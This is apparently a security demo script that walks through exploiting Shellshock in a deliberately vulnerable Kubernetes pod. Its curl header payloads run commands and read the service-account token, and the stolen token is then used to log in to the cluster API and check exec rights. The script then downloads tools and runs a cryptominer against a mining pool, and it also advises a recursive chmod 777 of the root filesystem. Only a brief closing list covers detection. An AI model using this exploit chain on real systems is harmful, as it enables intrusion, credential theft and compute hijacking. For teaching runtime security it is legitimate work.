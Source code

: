 # Initial Access to Credential Discovery to Privledge escalation and Impact

This demonstration will showcase initial access as part of the MITRE ATT&CK framework. This will showcase Exploition of a Public-Facing Application insight of a container image and 


This demo will also showcase practical security controls with a focus on runtime security controls. 

## What is shellshock?

Improper input validation bash code allowed users to put trailing commands after the definition of environment variables. 

You read this and first think - what uses environment variables.....crap. TONS OF THINGS! SSH, Apache modules, etc.

This meant remote code execution on apaches mod_cgi(d) library used in web servers.

CGI stands for Common Gateway Interface. It is a way to let Apache execute script files and send the
output to the client. So we just need something that will use bash.


# Demo Script


## Setup

This setup will provide the foundational layer and jumping point from which you will attck Kubernetes. It will also deploy a target pod that we will move to in order to steal sensitive data. 


### Deploy Vulnerable Pod for Initial Access

*Note: It's important that this is not exposed to the public internet and highly reccomended to never be run in privlegded mode. (You will actually be hacked if running in privledged mode and publically expose this)* It's reccomended that when using this you only port forward.


1. Deploy a vulnerable pod based on the vulnerables docker repo shellshock vulnerability. This will be our initial access point for the attack. 

```
kubectl run shellshock --labels=app=shellshock,team=evilcasper --image=vulnerables/cve-2014-6271 -n default
```

```
oc exec -it shellshock -- sh 
```

Cheat so you have permissions:

```
chmod 777 -R  /
```

```
chown www-data:www-data -R /
```

```
exit
```


2. Port forward to the pod so that you don't expose a pod vulnerable to shellshock to a network attack vector. 

```
kubectl port-forward shellshock 8080:80 -n default &
```

## Prelude 

You are playing the role of an attacker targeting an externally facing website. 

### Exploit and gather information.

3. Test to ensure that you can exploit

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo "pwnage"'" \
http://localhost:8080/cgi-bin/vulnerable

```

Sad can't do all the things.


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" \
http://localhost:8080/cgi-bin/vulnerable


Check if I can get access to secrets or find out more about the environment. 

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'env'" \
http://localhost:8080/cgi-bin/vulnerable

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls -ltr /bin/'" \
http://localhost:8080/cgi-bin/vulnerable

Okay this looks limited. Am I a container? Lets check if I can access a service account secret.


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /var/run/secrets/kubernetes.io/serviceaccount/token'" \
http://localhost:8080/cgi-bin/vulnerable

PWNAGE.

Ultimately you don't have enough permissions to escape because you are the www-data user. However, if you are the root user in a container this is a different story.

Assume you actually know what the Kubernetes API server endpoint is. You now have enough information to authenticate to the API server.

EXIT

export TOKEN=<insert-token>

oc login https://api.js-09-14-sweet-drawer-water.openshift.infra.rox.systems:6443 --token=$TOKEN 

So what can I do. I don't want to set off a ton of alarms so I need to figure out who I am and what permissions I have before I start doing things. I'll do this a bit more slowly.

kubectl auth can-i create po/exec

kubectl auth can-i create po

So I can create pods and I can exec into them. Exec is means of execution.

Lets go back to shellshock to see what I could have done if I were root.

apt-get install wget

Okay so it looks like I can't reach out because I'm using an older package system. So I need to update this. Lets delete the package source list

rm /etc/apt/sources.list

Lets update the package source list

printf "deb http://archive.debian.org/debian wheezy main\ndeb http://security.debian.org/debian-security wheezy/updates main\n" >> /etc/apt/sources.list

Update everything so I can download packages.

apt-get update

And now I can download tools to laterally move and download tools.

apt-get install wget curl -y

So at this point it really depends what I want to do. Now that I've downloaded tools I need I can use them to do a ton of things. wget to download other tools. curl make api calls. oc to interface with an openshift or kubernetes api.

So now I'm going to install a cryptominer.

First I'll go to /tmp

cd /tmp

And then I'm going to download ethminer a popular solution used to miner etherium.

wget https://github.com/ethereum-mining/ethminer/releases/download/v0.18.0/ethminer-0.18.0-cuda-8-linux-x86_64.tar.gz

Unzip that.

tar -xvzf ethminer-0.18.0-cuda-8-linux-x86_64.tar.gz


/bin/ethminer --farm-retries 9999 -U --farm-recheck -P stratum1+ssl://ETH_WALLET.WORKERNAME@us2.ethermine.org:5555

Now I can have some fun. All I need to do is replace ETH_WALLET with my wallet, which is used to pay me and my workername

Worker names are used by mining pools to identify your account and the hashrate contribution of each individual miner.

A mining farm is a location, usually a large space, housing several computers dedicated to mining one or more cryptocurrencies.

Stratum1+ssl is the protocol used with encryption.

Check site. Port forward if needed.

Now lets review what I did from a security perspective.

1. I tested that I had access, checked who I was and looked for addtional information. So I could have monitored for a few commands that my app reasonably never would have ran.

- env
- whoami

2. I did an ingress tool transfer that allowed me to ge the tools I needed for an attack. I can monitor for commands that do this as well.

- wget
- curl
- apt-get
- yum

3. I accessed the Kubernetes API server and ran malcious code through execs. I can block execs directly and monitor activity from execs.
